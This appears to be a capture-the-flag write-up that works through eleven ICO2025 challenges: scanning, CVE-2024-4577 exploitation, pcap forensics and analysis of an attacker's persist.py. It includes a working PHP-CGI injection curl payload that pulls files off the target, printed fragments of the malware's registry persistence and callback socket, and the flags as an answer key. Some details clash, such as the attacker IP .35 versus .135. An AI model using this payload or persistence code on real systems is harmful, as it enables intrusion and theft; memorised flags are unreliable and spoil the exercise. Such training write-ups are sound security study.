


# 11 easy digital "forensics" challenges.

## 1. **[Phase 1 - VA]** Scanning
A common step in a vulnerability assessment is to scan for open ports and find running services on those ports. Can you conduct a port scan and find what ports are open on the compromised machine (200.200.200.20)? 

**Submission Format**: <br>
ICO2025{port number_service name}  *case insensitive*

**Solution**:<vr>
```nmap -sC -sV 200.200.200.20```

**Flag**:
ICO2025{80_http}


## 2. **[Phase 2 - VA]** Scanning
Vulnerabilities can sometimes be operating system specific. As such, it is good practice to narrow down as much information as we can when conducting a vulnerability assessment. Are you able to find out what operating system is compromised machine using? 

**Submission Format**: <br>
ICO2025{xxx xxx xxx...}  *case insensitive*

**Solution**:<br>
```
nmap -O 200.200.200.20
```
Then copy all the versions and submit them until you get a flag.

**Flag**:
ICO2025{Microsoft Windows XP 2019}


## 3. **[Phase 1 - VA]** Searching Open Services 
Services running on internal networks typically hold a significant importance and may contain sensitive information. Explore the services you found and see if you can find out the purpose of the service running on port 80.

**Submission Format:** <br>
ICO2025{Title of the list}

**Solution**:<br>
```
curl http://200.200.200.20/dashboard/
```
It's the title of the table on the page.

**Flag**:
ICO2025{IT Team's To-Do List}


## 4. **[Phase 1 - VA]** Vulnerable Service 
Are you able to find the CVE number of the vulnerability present in the compromised machine?

**Submission Format**: <br>
ICO2025{CVE_2021_1111}  *case insensitive*

**Solution**:<br>
```
Visit http://200.200.200.20/ in browser.
```
It says the CVE on the website in table. 

**Flag**:
ICO2025{CVE_2024_4577}


## 5. **[Phase 1 - VA]** Metasploit 
Exploit the vulnerability!

**Submission Format**: <br>
ICO2025{metasploit_module} *omit out the /exploit/.../.../      case insensitive

**Solution**:<br>
```
mfs (metasploit console)
search CVE-2024-4577
```
This will then print the exploit path on metasploit which is:
```
use exploit/windows/http/php_cgi_arg_injection_rce_cve_2024_4577
```

**Flag**:
ICO2025{php_cgi_arg_injection_rce_cve_2024_4577}


## 6. **[Phase 2 - Forensics]** Analysing Pcap 
Analyse the packet capture file given in <br>
C:\Users\Marcus-WebAdmin\Documents\Network Captures. 

We are trying to look out for suspicious activities from the attacker but first, we need to identify the attacker's IP address. Are there any suspicious IP addresses in the unit's network found in the capture?

**Submission Format**: <br>
ICO2025{ip_address}

**Solution**:<br>
So I couldn't get metasploit to work - I could not get it to find my local machine. I ended up writing a curl command instead:
```
curl -X POST "http://localhost:3390/?%ADd+allow_url_include%3d1+%ADd+auto_prepend_file%3dphp://input" \
  -H "User-Agent: curl/8.3.0" \
  -H "Accept: */*" \
  -H "Content-Type: application/x-www-form-urlencoded" \
  --data-binary $'<?php echo base64_encode(file_get_contents("C:\\\\Users\\\\Marcus-WebAdmin\\\\Documents\\\\Network Captures\\\\capture.pcapng")); ?>' \
  -o capture_base64.txt
base64 -d capture_base64.txt > capture.pcap
```
After the pcap was obtained, I just looked at what IP addreses were sending tcp traffic with malicious packets. 

It was pretty obviosly this IP that was sending malicious traffic.

**Flag**:
ICO2025{192.168.12.35}


## 7. **[Phase 2 - Forensics]** Attacker Malware 
It seems like the attacker might have uploaded some of his own files on the compromised machine. Are you able to identify the frame number where the request is initiated?

**Submission Format**: <br>
ICO2025{Frame_No}

**Solution**:<br>
First, I added filters to wireshark: ``` ip.src == 192.168.12.135 || ip.dst == 192.168.12.135 && (ftp.request.command == "STOR" || http.request.method == POST) ```
Scrolling through that, I spotted 2 files being transfered over ftp. These files are being exported: 
From that, I knew the flag would be around package 4400. I then found the request that initiated the request.

**Flag**:
ICO2025{4395}


## 8. **[Phase 2 - Forensics]** Export Objects 
Try to export out important objects/files found in the pcap file!

**Submission Format**: <br>
ICO2025{Suspicious_file_name}

**Solution**:<br>
```
The same file from the file export... ```persist.py```
```

**Flag**:
ICO2025{persist.py}


## 9. **[Phase 2 - Forensics]** Attacker's Malware Part 2 
It seems like the attacker might have uploaded some of his own files on the compromised machine. Are you able to find it and generate out its md5 digest?

**Submission Format**: <br>
ICO2025{md5_digest}  *case insensitive*

**Solution**:<br>
```
md5sum persist.py
```

**Flag**:
ICO2025{3b3ea2f2378fbcc04f3a6b95049e8b81}


## 10. **[Phase 3 - AP]** Malware Analysis 
The malware have attempted to make network connection(s), what IP address and port is it trying to connect to?

**Submission Format**: <br>
ICO2025{IP Address:port number}

**Solution**:<br>
```
cat persist.py
```
It has this section:
```py
add_to_registry()

HOST = '192.168.12.135'
PORT = 4242

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
```

**Flag**:
ICO2025{192.168.12.135:4242}


## 11. **[Phase 3 - AP]** Malware Analysis Part 2 
What is the name of the key that was created by the malware?

**Submission Format**: <br>
ICO2025{name}

**Solution**:<br>
It also has this section:
```py
    key = reg.OpenKey(reg.HKEY_CURRENT_USER, key_path, 0, reg.KEY_ALL_ACCESS)
    
    # Add the script to the registry
    reg.SetValueEx(key, "malware", 0, reg.REG_SZ, script_path)
    
    # Close the registry key
    reg.CloseKey(key)

```

**Flag**:
ICO2025{malware}